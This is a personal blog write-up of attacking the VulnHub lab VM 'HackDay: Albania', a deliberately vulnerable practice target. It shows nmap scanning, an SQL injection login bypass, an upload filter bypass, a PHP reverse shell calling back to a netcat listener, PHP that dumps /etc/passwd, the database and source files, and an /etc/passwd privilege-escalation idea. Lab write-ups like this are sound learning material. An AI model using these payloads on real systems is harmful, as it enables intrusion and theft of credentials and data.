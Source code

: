 ```yaml
---
layout: post
title:  "First Stab at a Vulnhub VM"
date:   2017-2-8 19:20:00 -0400
categories: update post exploitation vulnhub penetration-test
---
```

<h1>Introduction</h1>
VulnHub is a website the hosts a growing series of virtual machines as challenges in learning penetration testing, and I pulled one of their recent VMs, HackDay: Albania, the night before I wrote this post. I managed to get remote code execution and a connect back shell before I hit the end of the night and got a hint on actually escalating privilege to root. The way I went about it is more relaxed than it should be in any penetration test, but I had a limited amount of time to really dig around in attacking it. Below is my write-up.

<h1>Scanning</h1>
I started up the VM under a Host-Only adapter who's ip-range came after 192.168.56.1. Netdiscover and me weren't getting along too well, so I just used nmap to get two things done at once. I scanned the range and noted the ports open on the host. 

{% highlight text %}
$ nmap -T5 192.168.56.1-255

Starting Nmap 7.01 ( https://nmap.org ) at 2017-02-07 23:17 EST
Nmap scan report for 192.168.56.1
...

Nmap scan report for 192.168.56.101
Host is up (0.0012s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8008/tcp open  http
{% endhighlight %}

I was pretty sure that was it, and was very doubtful that I'd have much to gain early on from trying ssh.

<h1>Attacking</h1>
I went to the http site right off, and was greeted with a hilarious background image of Rami Malek in Mr. Robot.

<img src="/pics/mr-robot-background.png">

Get it? The page had a modal window with a language I can't read, but I think translates to something like "if I were me, I'd know where to go," and with the hint of the background image I went right in to the robots.txt. There I saw several directories, but poking inside one at random I got some troll meme.

<img src="/pics/meme-lizard.jpg">

I decided to use Python then to open all of them, figuring the secret was probably within one of them.

{% highlight BASH %}
$ wget 192.168.56.101:8008/robots.txt
{% endhighlight %}
{% highlight Python %}
$ python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> f = file("robots.txt")
>>> lines = f.readlines()
>>> dirs = []
>>> for l in lines:
...   dirs.append(l[10:-1])
... 
>>> dirs
['/rkfpuzrahngvat/', '/slgqvasbiohwbu/', '/tmhrwbtcjpixcv/', '/vojtydvelrkzex/', '/wpkuzewfmslafy/', '/xqlvafxgntmbgz/', '/yrmwbgyhouncha/', '/zsnxchzipvodib/', '/atoydiajqwpejc/', '/bupzejbkrxqfkd/', '/cvqafkclsyrgle/', '/unisxcudkqjydw/', '/dwrbgldmtzshmf/', '/exschmenuating/', '/fytdinfovbujoh/', '/gzuejogpwcvkpi/', '/havfkphqxdwlqj/', '/ibwglqiryexmrk/', '/jcxhmrjszfynsl/', '/kdyinsktagzotm/', '/lezjotlubhapun/', '/mfakpumvcibqvo/', '/ngblqvnwdjcrwp/', '/ohcmrwoxekdsxq/', '/pidnsxpyfletyr/', '/qjeotyqzgmfuzs/']
>>> site = "192.168.56.101:8008"
>>> import subprocess
>>> for dir in dirs:
...   subprocess.call(["google-chrome", site+dir])
... 
{% endhighlight %}

LOTS of browser tabs flew open, and the one fruitful directory presented a hint that I should go deeper into /vulnbank/. This brought me to a login page that was vulnerable to SQL injection. I first gave a few tries akin to "' OR '1'='1'-- " in both of them, but something was off that caused it to fail. The error message at the very least though confirmed that this was a MySQL database, so I wouldn't have to learn much new if I were to make a connection to the MySQL database. I tried a few other combinations before seeing that "' OR *" for the username field worked just fine with the first string I tried in the password field.

<img src="/pics/vulnbank.png">

I lost my original screenshot of when I first saw the page, but here it is after I played with it for a while. 

Charles D. Hobson has an interesting name and lots of money, and the page presented for him had an odd section for "Open Tickets". The support box has a file upload entry form, which looks real attractive for exploiting. Without knowing what happened to these uploads yet, I uploaded an shell script for connecting back to a netcat listener. This created an open ticket for me, and there I spotted an img linked to "view_file.php?filename=shell.sh" in Chrome's Dev Tools. 

Cool. Heading directly there though, I got back

	Only images are allowed to get included. We hate hackers.

Alright...So I tried many a workaround for getting my upload properly included, from null byte poisoning, to file redirection, but what worked was something I found <a href="http://security.stackexchange.com/questions/45156/php-null-byte-include-failing-explation-seeked">here</a>. The simplest thing was of course the solution, and I just had to rename the file to end with ".jpg". Thanks a lot, wireghoul. I stole some PHP connect back code that looked like...

{% highlight PHP %}
<?php

$sock = fsockopen("192.168.56.1", 40); exec("/bin/bash -i <&3 >&3 2>&3");

?>
{% endhighlight %}

I turned off my firewall, opened a terminal with "nc -l 40" to listen for a connection on port 40, and opened the page again. What's pecular is my netcat listener received a connection right away, but the connection was closed as soon as it came. This drove me some kind of mad in confusion, but I was pretty sure I had command execution at the very least. Without a working shell, I decided to disclose as much as possible of what sounded interesting at the time. I was still wondering if there were creds for me to steal for a login to ssh. The PHP I used looked kinda like...

{% highlight PHP %}

<?php
	echo shell_exec("uname -a");
	echo "<br>passwd...<br>";
	echo shell_exec("cat /etc/passwd"); //hope for some passwords to crack
	echo "<br>";

	echo shell_exec("ls /home/"); //enumerate users better this time...
	echo "<br>";

	//dump DB?

	$query = "SELECT * FROM klienti";
	$res = execute_query($query);
	while($result = mysqli_fetch_assoc($res)){
				  var_dump($result);
				  echo "<br>";
	}
	
	echo shell_exec("cat /var/www/html/unisxcudkqjydw/vulnbank/client/*"); //dumping the source of everything in the directory

	//...and so forth
?>

{% endhighlight %}

I let all of the source spill out onto the page, and took notice of the passwd file, the database creds, the OS identification, and a great big meme.

<img src="/pics/suchhaxor.png" title="So meme.">

Within the passwd file, I noticed that there was one user <i>taviso</i> with an <i>x</i> where I wanted to find a password hash. So that secret was probably in the shadow instead, but apache didn't have the permissions to read that.

Within the database creds, I took down hobson:Charles123, and jeff:jeff321, but these didn't look promising for anything else because neither username was in the passwd file. I tried to SSH with them anyway, but that was a futile effort.

The OS identification made it feel like the kernel version was too new for Dirty Cow or any related exploit I could try to cobble together.

Eventually I did decide to go looking for what PHP reverse shell scripts other people were using, and I found <a href="http://pentestmonkey.net/tools/web-shells/php-reverse-shell" >this one from PentestMonkey</a> to be promising. Uploading it, running my netcat listener, and receiving the shell was surprisingly painless. 

<h1>Where I Ended</h1>
That's about as far as I got with the VM. I had a shell, but a particular note came with it.

	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	/bin/sh: 0: can't access tty; job control turned off

Without a tty, I apparently couldn't even try the <i>su</i> command, or a variety of others. taviso's home folder was barren of any binaries I could exploit or configuration files I could write to, and he had no .ssh directory. I listed back through again all of the content hosted on the web server, but it was all data I had taken note of already. It was 3AM and I was stuck on escalating my priviledges much further, and so I finally gave up and looked up a hint.

Surprisingly, the /etc/passwd file is writable by any user.

	$ ls -al /etc/passwd
	-rw-r--rw- 1 root root 1795 Feb  9 20:20 /etc/passwd 

With this, anyone could write their own user into the passwd file. After generating a password with <b>openssl passwd -1 -salt somesalt easypassword</b>, one would need only concatenate the file before changing into the user. My issue though?

	$ su
	su: must be run from a terminal

/dev/console can't be rm'd with the permissions of www-data, and neither Make, GCC, TCC, or Python is installed in the VM. There is Perl, but I couldn't figure out anything I could accomplish with Perl that the PHP shell script hadn't already tried. So this is about where I decided I was done. I don't have the flag, but I'm happy enough with the shell I got, unless someone out there would like to give me the low down on stealing tty devices, or escalating my priviledges without one. 
